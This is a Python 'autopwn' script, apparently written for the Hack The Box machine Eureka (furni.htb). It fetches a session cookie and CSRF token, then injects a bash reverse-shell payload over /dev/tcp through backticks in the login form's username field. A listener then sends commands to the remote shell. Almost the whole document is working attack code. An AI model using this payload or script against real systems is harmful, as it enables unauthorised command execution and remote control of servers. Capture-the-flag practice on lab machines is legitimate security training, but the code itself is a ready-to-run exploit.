```python
            command = input()
            command += "\n"
            conn.send(command.encode())
            time.sleep(1)
            sys.stdout.write("\033[A" + ans.split("\n")[-1])
        except ConnectionResetError:
            print("[ ! ] Connection reset by target.")
            break
        except Exception as e:
            print(f"[ ! ] Error during communication: {e}")
            break
    conn.close()
    s.close()

def req(ip, session_cookie, csrf_token):
    """Sends the reverse shell payload with the retrieved session and CSRF token."""
    encoded_payload = f"bash -i >& /dev/tcp/{ip}/9999 0>&1"
    url_encoded_payload = requests.utils.quote(encoded_payload)
    data = f"username=%60{url_encoded_payload}%60&password=w1ld_w4s_h3r3&_csrf={csrf_token}"
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Referer': 'http://furni.htb/login?error'
    }
    cookies = {'SESSION': session_cookie}  # Set the 'SESSION' cookie
    try:
        resp = requests.post("http://furni.htb/login", data=data, headers=headers, cookies=cookies, allow_redirects=False)
        if resp.status_code == 302:
            print("[ + ] Payload likely sent successfully (redirect observed). Check your listener. (may take 2 minutes)")
        elif resp.ok:
            print("[ + ] Payload successfully sent (no redirect). Check your listener.")
        else:
            print(f"[ - ] Error sending payload. Status code: {resp.status_code} {resp.reason}")
            print(f"[ - ] Response content: {resp.text}")
            sys.exit(1)
    except requests.exceptions.RequestException as e:
        print(f"[ - ] Error sending POST request: {e}")
        sys.exit(1)

def main():
    p = argparse.ArgumentParser(description="Autopwn Eureka!")
    g = p.add_mutually_exclusive_group(required=True)
    g.add_argument("-i", "--ip", help="Attacker ip address, e.g., 10.10.14.50")
    args = p.parse_args()

    if not args.ip:
        print("[ - ] No IP specified.")
        sys.exit(1)

    session_cookie, csrf_token = get_session_and_csrf()
    print(f"[ + ] Retrieved Session ID: {session_cookie}")
    print(f"[ + ] Retrieved CSRF Token: {csrf_token}")

    req(args.ip, session_cookie, csrf_token)
    req(args.ip, session_cookie, csrf_token)
    listen(args.ip, 9999)

if __name__ == "__main__":
    main()

```